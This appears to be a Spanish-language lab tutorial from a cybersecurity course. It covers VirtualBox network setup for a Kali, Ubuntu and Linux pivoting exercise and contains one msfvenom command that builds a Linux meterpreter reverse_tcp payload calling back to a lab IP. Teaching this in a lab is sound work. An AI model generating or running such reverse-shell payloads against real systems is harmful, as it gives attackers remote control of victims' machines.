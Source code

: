 Desde VirtualBox la configuración de las redes es así:

Creamos una NAT desde herramientas.

![nat](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/nat.png?raw=true)

Kali tiene un adaptador puente

![kali-adaptador](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/kali-adaptador.png?raw=true)

Linux tiene una NAT

![linux-nat](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/linux-nat.png?raw=true)

Ubuntu tiene:

> Adaptador 1: Adaptador puente

> Adaptador 2: Red Nat

La máquina Kali con Metasploit Framework será desde donde realizaremos la intrusión. Tiene dos interfaces de red, una en modo NAT (eth1 simplemente para tener salida a Internet) y eth0 con la IP asignada 10.0.0.1 que forma parte de la red 10.0.0.0/24. Esta máquina no tiene visibilidad directa con la segunda red 11.0.0.0/24.

![kali-metasploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/kali-metasploit.png?raw=true)

La máquina Ubuntu tiene dos interfaces la cual tiene visibilidad con la red 10.0.0.0/24 y 11.0.0.0/24 será el pivoting y la segunda máquina Linux con una sola interface con la ip asignada 11.0.0.10 que tendrá visibilidad para la red 11.0.0.0.0/24, esta será una posible máquina vulnerable ya que dispondrá de un servicio web Apache a la que tendremos que intentar llegar desde la máquina Kali.

![ubuntu](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/ubuntu.png?raw=true)

## Establecer una sesión Meterpreter en la máquina Ubuntu (pivoting)

El funcionamiento de los tipos de pivoting dentro de las posibilidades que nos ofrece Metasploit Framework debemos partir de la obtención de una sesión Meterpreter en uno de los equipos de la red, en este caso será el Ubuntu en el cual tiene visibilidad con las dos redes dentro de este laboratorio, esta será la máquina que nos hará de pivoting a las redes que tenga configuradas. Para este escenario podemos generar con msfvenom un payload en el que su shellcode será un meterpreter linux y ejecutarlo en la máquina remota para obtener dicha sesión.

```bash
msfvenom -p Linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o payload
```

- *b '\x00\x0a\x0d'*: (--bad-chars) Parámetro en el que se le puede especificar una lista de caracteres a evitar, de modo que no provoque un posible error en el momento de ejecutar el payload. En este caso estos *[opcodes](https://en.wikipedia.org/wiki/Opcode)* serían válidos.

![opcodes](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/opcodes.png?raw=true)
